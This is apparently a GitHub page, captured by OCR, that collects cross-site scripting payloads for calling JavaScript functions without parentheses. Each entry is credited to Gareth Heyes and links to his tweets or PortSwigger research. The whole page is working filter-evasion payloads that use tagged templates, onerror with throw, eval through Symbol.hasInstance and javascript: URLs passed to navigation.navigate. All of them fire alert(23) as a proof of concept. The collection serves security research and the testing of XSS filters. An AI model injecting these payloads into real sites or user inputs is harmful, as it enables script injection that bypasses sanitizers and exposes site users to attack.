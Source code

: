     Reflect.apply.call`${alert}${undefined}${[23]}`

---

[Garethheyes](https://twitter.com/garethheyes/status/1536796812073476097?s=20&t=dPlXor6lWkKtDil629FLJg)

    navigation.navigate`javascript:alert\x2823\x29`

---

[Garethheyes](https://twitter.com/garethheyes/status/1408510651321012227?)

    var{haha:onerror=alert}=0;throw 1
    var{a:onerror}={a:alert};throw 1

---

[Garethheyes](https://twitter.com/garethheyes/status/1128974215682637825)

    'alert\x2823\x29'instanceof{[Symbol.hasInstance]:eval}

---
Only Chrome [Garethheyes](http://www.thespanner.co.uk/2012/05/01/xss-technique-without-parentheses/)

    onerror=eval;throw'=alert\x2823\x29';
    
---

[Garethheyes](https://twitter.com/garethheyes/status/1126526480614416395)

    {onerror=alert}throw 23

----

[Garethheyes](https://twitter.com/garethheyes/status/1519042089429999617)

    throw{},onerror??=alert,"XSS"??123

----

[Garethheyes](https://portswigger.net/research/the-seventh-way-to-call-a-javascript-function-without-parentheses)

    [].sort.call`${alert}23`

----

[Garethheyes](https://portswigger.net/research/the-seventh-way-to-call-a-javascript-function-without-parentheses)

    [].map.call`${eval}\\u{61}lert\x2823\x29`

----

[Garethheyes](https://portswigger.net/research/the-seventh-way-to-call-a-javascript-function-without-parentheses)

    window.name='javascript:alert(23)';
    Reflect.apply.call`${navigation.navigate}${navigation}${[name]}`;
